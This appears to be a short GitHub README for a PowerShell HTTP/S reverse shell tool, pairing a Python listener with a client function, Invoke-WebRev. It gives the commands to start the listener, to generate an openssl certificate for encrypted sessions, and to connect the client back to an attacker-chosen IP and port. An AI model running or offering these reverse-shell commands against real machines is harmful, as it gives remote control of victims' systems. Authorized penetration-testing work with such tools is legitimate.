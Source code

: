 # Powershell HTTP/S Reverse Shell

##  server.py - server

![Alt text](images/revshell.png "Server")

On your server:
```
    python3 server.py IP PORT
    
    For SSL Reverse Shell:
        openssl genrsa -out private.pem 2048
        openssl req -new -x509 -key private.pem -out cacert.pem -days 9999
        python3 server.py --ssl IP PORT
```

## clientHTTP_shell.ps1 - client

On your client:
```
Reverse Shell without encryption:
    Invoke-WebRev -ip IP -port PORT
```
```
Reverse Shell with encryption:
    Invoke-WebRev -ssl -ip IP -port PORT
```

# Future features
    - Upload function
    - Download function
